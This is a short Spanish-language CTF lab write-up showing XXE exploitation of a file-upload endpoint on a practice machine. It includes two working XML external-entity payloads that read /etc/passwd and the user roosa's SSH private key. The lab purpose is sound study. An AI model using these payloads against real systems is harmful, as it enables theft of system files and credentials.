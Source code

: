 ## Evaluacion de vulnerabilidades {-}

### XXE {-}

Si la web nos reporta el contenido de un campo XML, los attackantes pueden approvechar de una *ENTITY* para remplazar el campo reportado
por el contenido de un fichero interno de la maquina.

En este caso, vemos que el campo **Author** esta reportado en la web y le indicamos que queremos ver el contenido del `/etc/passwd` en su lugar.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Uploadeamos el fichero y si vamos en `http://10.10.10.91:5000/upload/nombre-del-fichero.xml` vemos que podemos ver el contenido del `/etc/passwd` de la 
maquina.

Como hemos visto que havia un usuario llamado **roosa**, intentamos ver si tiene un fichero `id_rsa`

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Despues de subir este nuevo fichero podemos ver la id_rsa del usuario roosa.




